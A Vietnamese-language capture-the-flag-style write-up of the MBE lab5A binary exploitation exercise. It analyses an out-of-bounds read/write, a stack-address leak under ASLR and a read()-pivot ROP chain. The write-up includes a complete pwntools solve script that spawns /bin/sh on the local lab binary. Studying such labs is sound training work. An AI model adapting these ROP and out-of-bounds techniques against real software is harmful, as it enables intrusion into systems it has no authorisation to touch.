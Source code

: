 MBE (Modern Binary Exploitation) là các bài lab khá quen thuộc đối với những người học binary exploit, thông qua các bài lab mình học được khá nhiều kiến thức mới mà mình bị overlooked lúc tìm hiểu web exploitation. Đây là một writeup về lab5A, bài cuối về chủ đề ROP của MBE.

## Source code analysis

Source bài này sẽ khá giống với bài lab3A trong phần shellcode, một storage service cho phép chứa 1 số vào 1 array về đọc số đó ra. tại hàm `read_number` ta có thể dễ dàng thấy được lỗi Out of Bound Reading
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c186c6cc-325b-418d-abbe-1fb7aaa2698a)

Với lỗi này ta có thể lợi dụng để leak stack address (lab MBE từ section 5 trở xuống thì ASLR luôn tắt, tuy nhiên để làm bài này khó hơn thì mình đã bật ASLR lên). Tại hàm `store_number`, ta thấy có một phần check trước khi dữ liệu được ghi:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d9144843-1b28-45c2-8801-0596d2449cbe)

Giải thích về 3 phần check:
- `index % 3 == 0` phần check này là để gây khó khăn hơn khi craft ROP gadget, ta sẽ không thể ghi được ở 3 địa chỉ liền kề nhau
- `index > STORAGE_SIZE` có vẻ là để tránh việc Out of Bound Writing, tuy nhiên để ý kỹ thì đáng lẽ nó phải là `index > STORAGE_SIZE-1` vì index bắt đầu từ `0`, do đó ta có 4 byte OOW, kinda useless vì nó chẳng thể chạm đến return address.
- `(input >> 24) == 0xb7` intend của check này là ngăn việc ta có thể ret2libc, nhưng thật ra nó statically linked nên cũng không có libc và ở bài này mình cũng sẽ không dụng đến libc

Vậy nếu ta chỉ có thể ghi đè 4 byte ở sau buffer thì có thể làm được gì nhỉ... nếu để ý lại index nhập vào sẽ là kiểu `int` vậy nếu ta để index âm thì bằng các canh chỉnh chính xác ta có thể store ở bất cứ địa chỉ nào trong memory, OOW thành công.
Sau khi căn chỉnh ta sẽ biết ra được index `-1073741711` sẽ là return address của `main`, lúc đó sẽ trỏ về `__libc_start_main`, vậy giờ ta sẽ ROP như thế nào cho hợp lý... 

Với mình thì mình sẽ chọn 1 ROP gadget như sau, vì việc ROP gadget với 3 address không liên tiếp quá dark, nên mình muốn tìm cách để có thể ghi ROP gadget một cách tự do, idea sẽ là return về `read`.
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/7d5f475b-e02c-479f-b8c4-963517f81beb)

Return về code segment, sẽ bypass qua phần check thứ 3, tuy nhiên thì index `-1073741711 % 3 == 2` và `-1073741711 % 3 == 1`, index tiếp theo là `-1073741709` chắc chắn chia hết cho 3, stack layout cho function `read` sẽ không hoàn thiện được. Cách giải quyết đơn giản, return về một hàm dummy nào đó và đưa `read` vào return address của hàm đó, stack layout:
```
----------------
0x00000001 => dummy_function
0x00000002 => read
0x00000003 => dummy_function's arg 1 (khong control duoc)
0x00000004 => read's arg 1
0x00000005 => read's arg 2 (address bat ki)
0x00000006 => read's arg 3 (khong control duoc) 
----------------
```

`read` nhận 3 tham số, lần lượt là fd, buffer và size, vấn đề tiếp theo là ta lại không control được arg thứ 3, chính là size read vào
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e3763d94-e278-41f0-a6ce-7ae2100b2ee3)

Như ta thấy thì nếu tại return address là dummy function, thì argument `size` của `read` sẽ rơi vào địa chỉ `0xffffca30`, nghĩa là lúc này `read` sẽ đọc 0 byte, ta sẽ chẳng ghi đè được gì cả...

Nhưng sẽ ra sao nếu nơi mà argument 3 rơi vào là địa chỉ `0xffffca3c`
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/eff385ec-5aa9-4ed1-bb64-2f9df667b3c0)
Lúc này read sẽ đọc `0x80eb00c`, ta sẽ không cần nhiều đến thế nhưng chắc chắn nó sẽ giúp ta ghi đè được address bất kì. Vậy làm sao để ROP cho argument 3 rơi đúng vào ô nhớ đó? Mình sẽ cho return về một ROP pop stack 3 lần, sau đó return về `read` và ghi ROP vào return address của `read`, stack layout giả dụ:

```
----------------
0x00000001 => pop 3 thanh ghi
0x00000002 => ...
0x00000003 => ...
0x00000004 => ...
0x00000005 => read
0x00000006 => read's return address
0x00000007 => 0x0 (read from stdin)
0x00000008 => 0x00000006
0x00000008 => 0x80eb00c
----------------
```

ROP gadget để pop 3 stack:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/dbaf0569-93f5-4859-abee-213575a60a4b)

Vì trước đó thì mình có bật ASLR, nên ta sẽ cần leak địa chỉ của stack bất kì để tìm ra return address của `read`, cùng với đó là vì không có libc nên `/bin/sh` mình sẽ nèm vào phía dưới ROP chain, nên ta cũng cần tính toán offset để tìm ra địa chỉ của `/bin/sh` sau đó pop vào ebx

Solve script:
```py
from pwn import *

def write_rop(data, loc, f=None):
    buf = b"store\n"
    buf += str(data).encode() + b"\n"
    buf += loc.encode() + b"\n"
    if f:
        f.write(buf)
    return buf

pop_eax = util.packing.p32(0x080bc4d6)
pop_ecx = util.packing.p32(0x080e6255)
pop_edx = util.packing.p32(0x080695a5)
pop_ebx = util.packing.p32(0x08058ed6)
syscall = util.packing.p32(0x0806fa7f)


bin_sh_string = {}
bin_sh_string["bin"] = util.packing.p32(0x6e69622f)
bin_sh_string["sh"] = util.packing.p32(0x68732f2f)

read = 0x806d85a

# pop 3 thanh ghi
# ...
# ...
# ...
# read
# <not controllable>
# 0x0
# address to write
# 0x80eb00c

pop_3_reg = 0x0806e7bb

proc = process("../lab5A")

proc.sendline(b"read")
proc.sendline(b"-1073741709") # leak stack address
leaked_stack = int(proc.recvline_contains(b"Number at data[-1073741709] is ")[-10:].decode())
stack_ret_addr = leaked_stack - 116
bin_sh_addr = util.packing.p32(stack_ret_addr + 40)

print("leaked stack: " + hex(leaked_stack))
print("return address: " + hex(stack_ret_addr))
print("/bin/sh will be at: " + hex(stack_ret_addr + 40))


rop_chain = pop_ecx
rop_chain += util.packing.p32(0)
rop_chain += pop_edx
rop_chain += util.packing.p32(0)
rop_chain += b"BBBB"
rop_chain += pop_ebx
rop_chain += bin_sh_addr
rop_chain += pop_eax
rop_chain += util.packing.p32(0xb)
rop_chain += syscall
rop_chain += bin_sh_string["bin"]
rop_chain += bin_sh_string["sh"]

proc.send_raw(write_rop(pop_3_reg, "-1073741711"))
proc.send_raw(write_rop(0xffffffff, "-1073741710")) # padding
proc.send_raw(write_rop(read, "-1073741707"))
proc.send_raw(write_rop(0x0, "-1073741705"))
proc.send_raw(write_rop(stack_ret_addr, "-1073741704"))
proc.sendline(b"quit")
proc.send_raw(rop_chain)
proc.sendline(b"/bin/sh")
proc.interactive()
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/385ec24f-0e4b-4e39-a71c-d693f8de1719)

